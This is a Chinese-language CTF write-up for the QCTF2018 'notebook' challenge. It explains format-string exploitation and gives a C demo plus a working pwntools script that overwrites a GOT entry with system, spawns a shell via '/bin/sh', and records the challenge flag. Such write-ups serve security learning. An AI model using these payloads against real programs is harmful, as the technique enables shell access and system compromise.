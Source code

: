 # QCTF2018 notebook
## Author: 文火
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这题就是字符串格式化漏洞，常规操作我就不说了，有两点要知道就是：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>1.**n是改四个字节，hn改两个字节，hhn改一个字节**，所以可以利用这点修改got表为system函数的got表；</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>2.**32位中printf的format里从esp开始的第1个（从0开始数）四个字节为1$，sprintf的第2个为1$**。64位的位置可调试得出，跟32位不一样因为传参规则不同。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我写了一个demo来表示这题的利用思路，也方便日后复习了，至于这题的脚本[从这](http://invicsfate.cc/2018/07/16/QCTF-xman/)搬运。</font></br>

demo
=========

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

//got address:
//system 0x804a018
//puts   0x804a014

char buf[0x100]={0,};
unsigned int pri_addr=0x804a014;
char* bin="/bin/sh\0";
char* string="%%1$176s%%15$hhn";

int main()
{
	char* ptr=string;
	char BUF[0x100];
	char format[0x20];
	char* string="aaaaaaaa";

	*(unsigned int*)format=pri_addr;

	system("sleep 0.1");
	for(int i=4;i<32;i++)
	  format[i]=*ptr++;
	
	sprintf(BUF,format,string);
	printf(BUF);

	memcpy(buf,bin,8);
	puts(buf);
    //题中可以利用strlen(buf)来getshell。也就是修改strlen的got表。

	return 0;
}
```

Exploit
======

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
#Author:Invicsfate

from pwn import *

# 更正思路,修改strlen函数got表->system，输入/bin/sh，直接调用
# 0x0804A038 -> 080485C0
# payload1 = p32(0x0804A03A)+"%%14$hhn%%4c%%20$hhn"+p32(0x0804A03B)+"22%%119c%%25$hhn"+p32(0x0804A039)+"%%55c%%30$hhn222"+p32(0x0804A038)+"%11c"
# payload2 = "2222"+"%%17$hhn"+p32(0x0804A03A)+"%%20$hhn"+p32(0x0804A03B)+"%%119c"+"22"+"%%25$hhn"+p32(0x0804A039)+"222"+"%%52c"+"%%30$hhn"+p32(0x0804A038)+"%10c"
# QCTF{f0rmat_s7r1ng_is_happy_}

def pwnIt():
	p = process("./notebook")
#	gdb.attach(p)
	p.recvuntil("May I have your name?\n")
	payload = p32(0x0804A03A)+"%%14$hhn%%4c%%20$hhn"+p32(0x0804A03B)+"22%%119c%%25$hhn"+p32(0x0804A039)+"%%55c%%30$hhn222"+p32(0x0804A038)+"%11c"			p.sendline(payload)
	p.recvuntil("on the notebook?\n")
	p.sendline("/bin/sh\x00")
	p.interactive()


if __name__=="__main__":
	pwnIt()
```
